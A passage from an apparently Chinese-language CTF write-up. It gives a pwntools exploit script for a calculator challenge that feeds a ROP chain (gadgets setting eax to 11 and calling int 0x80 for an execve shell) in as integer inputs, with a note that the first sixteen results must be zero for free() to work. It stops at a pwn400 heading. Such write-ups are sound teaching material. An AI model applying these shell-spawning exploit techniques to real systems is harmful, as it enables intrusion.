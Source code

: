 ```
p.append(0x080ea068)  # @ .data + 8
p.append(0x080ea060)  # padding without overwrite ebx
p.append(0x0806ed0a)  # pop edx ; ret
p.append(0x080ea068)  # @ .data + 8
p.append(0x08054730)  # xor eax, eax ; ret
p.append(0x0807b75f)  # inc eax ; ret
p.append(0x0807b75f)  # inc eax ; ret
p.append(0x0807b75f)  # inc eax ; ret
p.append(0x0807b75f)  # inc eax ; ret
p.append(0x0807b75f)  # inc eax ; ret
p.append(0x0807b75f)  # inc eax ; ret
p.append(0x0807b75f)  # inc eax ; ret
p.append(0x0807b75f)  # inc eax ; ret
p.append(0x0807b75f)  # inc eax ; ret
p.append(0x0807b75f)  # inc eax ; ret
p.append(0x0807b75f)  # inc eax ; ret
p.append(0x08049781)  # int 0x80

tempnum=0
#debug()
io.recvuntil('How many times do you want to calculate:')
io.sendline('255')
for i in xrange(0,16):
    io.recvuntil('5 Save the result\n')
    io.sendline('1')
    io.recvuntil('input the integer x:')
    io.sendline(str(tempnum))
    io.recvuntil('input the integer y:')
    io.sendline('0')

for j in p:
    io.recvuntil('5 Save the result\n')
    io.sendline('1')
    io.recvuntil('input the integer x:')
    io.sendline(str(ct.c_int32(j).value))
    io.recvuntil('input the integer y:')
    io.sendline('0')

io.recvuntil('5 Save the result\n')
io.sendline('5')
io.interactive()
io.close()
```

注意一点就是，就是程序在return 0之前会调用free，而为了保证free函数的正常运行，前十六次计算的结果必须为0，后面的计算结果就可以随意了

最后getshell的效果是：

![](https://ae01.alicdn.com/kf/HTB1ENHRaG67gK0jSZFHq6y9jVXas.jpg)

### pwn400
把pwn400直接拖入ida中：  
main函数：  
